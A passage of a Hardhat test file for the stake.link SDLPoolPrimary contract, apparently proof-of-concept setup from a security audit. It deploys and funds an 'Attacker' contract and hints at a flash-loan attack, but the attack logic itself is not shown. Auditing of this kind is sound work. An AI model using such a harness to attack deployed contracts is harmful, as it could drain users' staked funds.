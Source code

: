 ```
  let sdlPool: SDLPoolPrimary
  let signers: Signer[]
  let accounts: string[]
  let attacker:Attacker
  before(async () => {
    ;({ signers, accounts } = await getAccounts())
  })

  beforeEach(async () => {
    sdlToken = (await deploy('StakingAllowance', ['stake.link', 'SDL'])) as StakingAllowance
    rewardToken = (await deploy('ERC677', ['Chainlink', 'LINK', 1000000000])) as ERC677

    await sdlToken.mint(accounts[0], toEther(1000000))
    await setupToken(sdlToken, accounts)

    boostController = (await deploy('LinearBoostController', [
      4 * 365 * DAY,
      4,
    ])) as LinearBoostController

    sdlPool = (await deployUpgradeable('SDLPoolPrimary', [
      'Reward Escrowed SDL',
      'reSDL',
      sdlToken.address,
      boostController.address,
    ])) as SDLPoolPrimary

    rewardsPool = (await deploy('RewardsPool', [
      sdlPool.address,
      rewardToken.address,
    ])) as RewardsPool

    await sdlPool.addToken(rewardToken.address, rewardsPool.address)
    await sdlPool.setCCIPController(accounts[0])
    //attack contract deployment -- setting bridge contract to same we wont need ccip here
    attacker=await deploy("Attacker",[sdlPool.address,sdlPool.address,sdlToken.address]) as Attacker
    await sdlToken.transfer(attacker.address,toEther(20000))
    const sender = signers[0] // or choose any unlocked account
    const valueToSend = ethers.utils.parseEther("100") // Amount of Ether to send
    const tx = await sender.sendTransaction({
      to: attacker.address,
      value: valueToSend,
    });
  
    await tx.wait();
    console.log("Funded contract!");
  })
  it('should be able to lock an existing stake', async () => {
    //with flashloan this may prove fatal...
    await sdlToken.transferAndCall(
      sdlPool.address,
      toEther(10000),
      ethers.utils.defaultAbiCoder.encode(['uint256', 'uint64'], [0, 0])
    )
    await sdlPool.extendLockDuration(1, 365 * DAY)
    let ts = (await ethers.provider.getBlock(await ethers.provider.getBlockNumber())).timestamp

    assert.equal(fromEther(await sdlPool.totalEffectiveBalance()), 200)
    assert.equal(fromEther(await sdlPool.totalStaked()), 200)
    assert.equal(fromEther(await sdlPool.effectiveBalanceOf(accounts[0])), 200)
    assert.equal(fromEther(await sdlPool.staked(accounts[0])), 200)
    assert.deepEqual(parseLocks(await sdlPool.getLocks([1])), [
```
